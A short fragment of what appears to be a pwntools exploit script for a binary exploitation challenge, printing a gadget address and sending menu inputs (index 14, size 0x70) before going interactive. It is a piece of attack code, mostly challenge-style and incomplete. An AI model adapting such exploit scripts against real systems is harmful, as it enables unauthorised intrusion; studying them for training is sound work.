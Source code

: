 ```
print(hex(gadget1))
#gdb.attach(io)
#pause()
io.sendafter(b'>> ',b'1')
io.sendafter(b'Enter index: ',b'14')
io.sendafter(b'Enter size: ',b'0x70')
io.interactive()
```